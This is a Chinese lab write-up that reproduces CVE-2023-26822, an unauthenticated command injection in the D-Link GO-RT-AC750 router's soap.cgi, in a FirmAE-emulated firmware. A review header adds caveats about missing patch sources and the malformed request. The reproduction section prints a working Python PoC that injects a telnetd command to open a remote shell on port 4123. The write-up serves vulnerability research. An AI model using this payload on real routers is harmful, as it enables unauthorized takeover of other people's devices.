# D-Link Go-RT-AC750 命令注入漏洞（CVE-2023-26822）复现

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：D-Link GO-RT-AC750
- 本文讨论：CVE-2023-26822
- 版本、权限与配置前提：revA_v101b03；UPnP soap.cgi端口49152未授权
- 资料类型：固件仿真/PoC；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 请求声明Content-Length:88却未发送任何body，URI还含裸空格；依赖服务端特殊解析未解释
- 没有修复/官方漏洞公告，仅产品下载和转文链接
- 部分步骤图片化，成功shell仅截图

### 操作风险与恢复

- 延时探针会占用线程或数据库连接；需记录基线和对照，单次慢响应或超时不足判定注入

### 待核与来源

- 原始报文与固件行为、补丁待核验
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/czri_8dXAs9pUYKfvUiJsQ)

  

**漏洞概述**


D-Link Go-RT-AC750 是一款双频无线路由器。



D-Link Go-RT-AC750 在固件版本为 revA_v101b03 中存在命令注入漏洞，漏洞编号：CVE-2023-26822。未经授权的攻击者可以请求 /soap.cgi 路由通过携带的参数进行命令拼接，从而控制路由器。

  

**环境搭建**


1.FirmAE 工具安装

首先拉取 FirmAE 工具仓库

```
git clone --recursive https://github.com/pr0v3rbs/FirmAE

```



运行下载脚本

```
cd FirmAE/
./download.sh

```



运行./install.sh 进行安装



2. 下载固件

本文模拟的是设备型号为 Go-RT-AC750，固件版本：revA_v101b03

下载地址:

```
https://eu.dlink.com/uk/en/products/go-rt-ac750-wireless-ac750-dual-band-easy-router

```

下载后得到 GORTAC750_A1_FW_v101b03.bin 固件文件



3.FirmAE 工具初始化

在 FirmAE 工具目录下执行./init.sh 进行初始化



4. 安装 binwalk

这里使用 FirmAE 工具目录下的 binwalk 安装程序进行安装

cd binwalk-2.3.3/

python3 setup.py install



5. 模拟运行固件  
执行如下命令对固件进行解压

```
binwalk -Me /root/GORTAC750_A1_FW_v101b03.bin --run-as=root

```



执行如下命令来模拟运行固件

sudo ./run.sh -r GORTAC750 /root/GORTAC750_A1_FW_v101b03.bin



使用浏览器访问 http://192.168.0.1，出现如下界面则表明成功模拟了一台 D-Link Go-RT-AC750 路由器



  

**漏洞复现**


POC 内容如下：

```
from socket import *
from os import *
from time import *
request = b"POST /soap.cgi?service=&&telnetd -p 4123& HTTP/1.1\r\n"
request += b"Host: localhost:49152\r\n"
request += b"Content-Type: text/xml\r\n"
request += b"Content-Length: 88\r\n"
request += b"SOAPAction: a#b\r\n\r\n"
s = socket(AF_INET, SOCK_STREAM)
s.connect((gethostbyname("192.168.0.1"), 49152))
s.send(request)
sleep(10)
system('telnet 192.168.0.1 4123')

```

执行 POC，成功获取 shell

```
python3 poc.py

```




美创科技旗下第 59 号实验室，专注于数据安全技术领域研究，聚焦于安全防御理念、攻防技术、威胁情报等专业研究，进行知识产权转化并赋能于产品。累计向 CNVD、CNNVD 等平台提报数百个高质量原创漏洞，发明专利数十篇，团队著有《数据安全实践指南》

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
